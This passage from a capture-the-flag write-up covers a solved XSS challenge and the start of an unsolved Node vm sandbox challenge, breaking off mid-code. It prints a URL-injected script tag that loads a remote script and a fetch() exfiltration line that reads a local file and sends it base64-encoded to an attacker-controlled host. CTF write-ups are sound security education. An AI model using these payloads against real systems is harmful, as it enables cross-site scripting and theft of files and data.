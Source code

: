 Report this url:

```
file:///app/templates/index.html?foo","content":["\u0022><script src=http://example.com:1338/xs.js></script>"],"status":"ok","bar":"
```

xs.js:

```
url='http://example.com:1338/?'
fetch('file:///app/templates/flag.txt').then(r=>r.text()).then(t=>fetch(url+btoa(t)));
```

The flag is `p4{can_i_haz_a_piece_of_flag_pliz?}`.

This is a great challenge! Really enjoy it :)

#### Failed Attempts

- XSS through localhost to RCE via Flask debug page: However the Flask debug is not enabled on localhost, and Flask console is protected by PIN.


### Temple JS (unsolved)

> Written by bookgin

The server code:

```javascript
const express = require("express")
const fs = require("fs")
const vm = require("vm")
const watchdog = require("./watchdog");

global.flag = fs.readFileSync("flag").toString()
const source = fs.readFileSync(__filename).toString()
const help = "There is no help on the way."

const app = express()
const port = 3000

app.use(express.json())
app.use('/', express.static('public'))

app.post('/repl', (req, res) => {
    let sandbox = vm.createContext({par: (v => `(${v})`), source, help})
    let validInput = /^[a-zA-Z0-9 ${}`]+$/g
    
    let command = req.body['cmd']
    
    console.log(`${req.ip}> ${command}`)

    let response;

    try {
        if(validInput.test(command))
        {    
            let watch = watchdog.schedule()
            try {
                response = vm.runInContext(command, sandbox, {
                    timeout: 300,
                    displayErrors: false
                });
            } finally {
                watchdog.stop(watch)
            }
        } else
```